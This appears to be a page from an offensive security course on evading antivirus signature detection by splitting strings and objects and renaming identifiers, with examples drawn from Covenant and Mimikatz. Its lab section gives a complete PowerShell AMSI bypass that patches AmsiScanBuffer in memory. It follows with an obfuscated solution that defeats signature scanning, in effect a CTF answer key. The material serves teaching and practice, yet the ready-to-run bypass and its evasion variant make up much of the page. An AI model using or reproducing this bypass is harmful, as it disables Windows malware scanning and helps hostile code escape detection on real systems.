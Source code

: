 # Static code-based signatures

The [Layered Obfuscation Taxonomy](../obfuscation/principles.md) covers the most reliable solutions as part of the 
Obfuscating Methods and Obfuscating Classes layer.

* The techniques class splitting/coalescing and method scattering/aggregation can be grouped into an overarching 
concept of splitting or merging any given OOP (Object-Oriented Programming) function.
* Other techniques such as dropping modifiers or method clone can be grouped into an overarching concept of removing 
or obscuring identifiable information.

## Splitting and merging objects

The methodology required to split or merge objects is very similar to the objective of concatenation: Create a new 
object function that can break the signature while maintaining the previous functionality. 

As an example, in [Using Custom Covenant Listener Profiles & Grunt Templates to Elude AV](https://offensivedefence.co.uk/posts/covenant-profiles-templates/) 
a string is replaced with a call to a new object (class) splitting the message.

The original offending string:

    string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2},""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";

Obfuscated Method: The new class used to replace and concatenate the string.

    public static string GetMessageFormat // Format the public method
    {
        get // Return the property value
        {
            var sb = new StringBuilder(@"{{""GUID"":""{0}"","); // Start the built-in concatenation method
            sb.Append(@"""Type"":{1},"); // Append substrings onto the string
            sb.Append(@"""Meta"":""{2}"",");
            sb.Append(@"""IV"":""{3}"",");
            sb.Append(@"""EncryptedMessage"":""{4}"",");
            sb.Append(@"""HMAC"":""{5}""}}");
            return sb.ToString(); // Return the concatenated string to the class
        }
    }
    
    string MessageFormat = GetMessageFormat

## Removing and obscuring identifiable information

Applying [removing identifiable information](../obfuscation/info.md) to identified signatures in any objects 
including methods and classes.

An example of this can be found in Mimikatz where an alert is generated for the string `wdigest.dl`l. This can be 
solved by replacing the string with any random identifier changed throughout all instances of the string. This can 
be categorised in the [obfuscation taxonomy](../obfuscation/principles.md) under the method `proxy technique`.

## Lab

Obfuscate the following PowerShell snippet, using AmsiTrigger to check signatures. Once sufficiently obfuscated, 
submit the snippet to the webserver at `http://IP address/challenge-1.html`. The file name must be saved as 
`challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up.

```text
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

## Obfuscated code

```text
$MethodDefinition = @'

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule,string procName);

    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
'@

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ASBD = "AmsiS"+"canBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ASBD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = new-object byte [] 6
$buf[0] = [UInt32]0xB8
$buf[1] = [UInt32]0x57
$buf[2] = [UInt32]0x00
$buf[3] = [Uint32]0x07
$buf[4] = [Uint32]0x80
$buf[5] = [Uint32]0xC3
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

[DEFCON-27-Workshop-Anthony-Rose-Introduction-to-AMSI-Bypasses-and-Sandbox-Evasion-Notes.pdf](https://media.defcon.org/DEF%20CON%2027/DEF%20CON%2027%20workshops/DEFCON-27-Workshop-Anthony-Rose-Introduction-to-AMSI-Bypasses-and-Sandbox-Evasion-Notes.pdf):

This method works by using C# to expose the native API calls in `Kernel32` to powershell. This allows us to obtain 
where in memory the AMSI Scan buffer is and patch in a command to return a good scan result prior to the function 
actually scanning our commands. It does not cause AMSI to fail instead preserving the appearance of the scan being 
completed fully. APTs have been observed using 
[this technique in the wild](https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/).

And flag!
